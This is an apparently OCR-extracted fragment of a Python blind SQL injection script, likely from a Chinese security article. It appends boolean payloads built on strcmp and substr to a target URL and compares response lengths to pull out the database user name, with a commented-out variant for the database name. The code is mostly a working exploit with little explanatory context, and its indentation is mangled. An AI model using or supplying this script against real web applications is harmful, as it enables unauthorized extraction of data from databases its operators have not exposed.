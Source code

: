 ```

"0x35","0x36","0x37","0x38","0x39","0x3a","0x3b","0x3c","0x3d","0x3e",

"0x3f","0x40","0x41","0x42","0x43","0x44","0x45","0x46","0x47","0x48",

"0x49","0x4a","0x4b","0x4c","0x4d","0x4e","0x4f","0x50","0x51","0x52",

"0x53","0x54","0x55","0x56","0x57","0x58","0x59","0x5a","0x5b","0x5c",

"0x5d","0x5e","0x5f","0x60","0x61","0x62","0x63","0x64","0x65","0x66",

"0x67","0x68","0x69","0x6a","0x6b","0x6c","0x6d","0x6e","0x6f","0x70",

"0x71","0x72","0x73","0x74","0x75","0x76","0x77","0x78","0x79","0x7a",

"0x7b","0x7c","0x7d"

]

user =""

for b in range(len(payload)):

for a in payload:

#sql_payload_user = " and strcmp(substr(database(),%s,1), 0x%s) rlike 0" % (b+1, a.replace("0x",""))    #当前数据库名称

        sql_payload_user =" and strcmp(substr(user(),%s,1), 0x%s) rlike 0"%(b+1, a.replace("0x",""))#当前数据库用户名

        res = requests.get(url + sql_payload_user).text

        res1 = requests.get(url).text

if len(res)== len(res1):#如果返回的内容长度大小一样，则表示匹配成功

            user = user + a

print(" ")

print("[*]info : 0x"+ user.replace("0x","").upper())

break

else:

print('\r',"Match failed,Next.....",end='')
```

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoiamlreVg3KIAnt2Jaibt6revGjuWk4cNUMRviagaFEibeZiaibRzQXB6eOKnvZ46Iqklicljxgh8xIhvvA/640?wx_fmt=png)
